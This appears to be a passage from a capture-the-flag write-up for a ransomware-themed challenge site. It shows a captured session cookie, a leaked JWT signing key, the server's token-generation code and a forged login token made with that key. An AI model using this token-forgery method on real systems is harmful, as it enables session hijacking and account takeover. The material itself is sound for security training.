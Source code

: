 cookie from task 5:
```
# Netscape HTTP Cookie File
gztkmtljeceezgmv.ransommethis.net       FALSE   /       TRUE    2145916800      tok     eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI0MjkzNTcsImV4cCI6MTY1NTAyMTM1Nywic2VjIjoiUDVRUXVscUI1V2VCdVNvWE54UGxCc3F0RGVzSWRqcUMiLCJ1aWQiOjI1NzYxfQ.sIUXAb5IhwBeC1kzODXLLv46r706lA5T_kEC54f8OA8 
```

source code from task b2

hmac key for jwt is ymQB3PsFosPGikNLLTiWwnYOpVdqXEBw

```py
def generate_token(userName):
	""" Generate a new login token for the given user, good for 30 days"""
	with userdb() as con:
		row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
		now = datetime.now()
		exp = now + timedelta(days=30)
		claims = {'iat': now,
		          'exp': exp,
				  'uid': row[0],
				  'sec': row[1]}
		return jwt.encode(claims, hmac_key(), algorithm='HS256')
```

payload from task 5 jwt

```json
{
  "iat": 1652429357,
  "exp": 1655021357,
  "sec": "P5QQulqB5WeBuSoXNxPlBsqtDesIdjqC",
  "uid": 25761
}
```

generate a jwt with `gen_jwt.py`

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjEwODMzOTIsImV4cCI6MTY2MzY3NTM5MiwidWlkIjoyNTc2MSwic2VjIjoiUDVRUXVscUI1V2VCdVNvWE54UGxCc3F0RGVzSWRqcUMifQ.iC7i3P4YtLGPto70FxD4w9fvLI0R_hNDl3e2os6j0EM
```